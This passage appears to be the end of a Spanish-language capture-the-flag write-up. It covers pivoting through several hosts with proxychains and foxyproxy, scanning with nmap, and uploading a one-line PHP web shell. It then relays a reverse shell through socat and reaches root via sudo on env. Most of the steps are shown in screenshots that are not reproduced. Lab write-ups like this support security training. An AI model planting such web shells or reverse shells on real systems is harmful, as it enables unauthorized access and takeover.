
_____
acá la configuración del proxychains.
_____

______
para realizar estas conexiones siempre debemos pensar que maquina tiene conexión con la otra.

ahora podemos configurar un nuevo proxy con foxyproxy para poder acceder a la web del nuevo host.
______

_____
de esta forma podremos ver la web del ultimo host.
____

____
también tenemos que aplicar los escaneos con nmap.

nos reporta un único puerto abierto.

y es una pagina web que nos permite cargar un archivo, por lo que cargamos un archivo .php con el siguiente codigo.

```php
<?php
system($_GET['cmd']);
?>
```

esto nos permitirá ejecutar comando de forma remota. 

por lo que ahora nos enviamos una reverse shell para ganar acceso a la maquina.

pero antes debemos configurar con socat para que nos pueda llegar esa reverse shell.
____

______
esto se hace para redirigir todo el trafico que pase por el puerto 5555 a nuestra maquina atacante, por lo que la reverse shell que enviemos primero debe de pasar por 4 maquinas hasta por fin llegar a la nuestra.
_______

______
todo esto hace que la reverse shell llegue y que podamos tener acceso a la ultima maquina.

una vez conectados aplicamos el tratamiento de la tty y vemos como escalar privilegios.
______

_____
podíamos ejecutar env como root sin proporcionar contraseña de esa forma escalaríamos a root, completando así la ultima maquina.


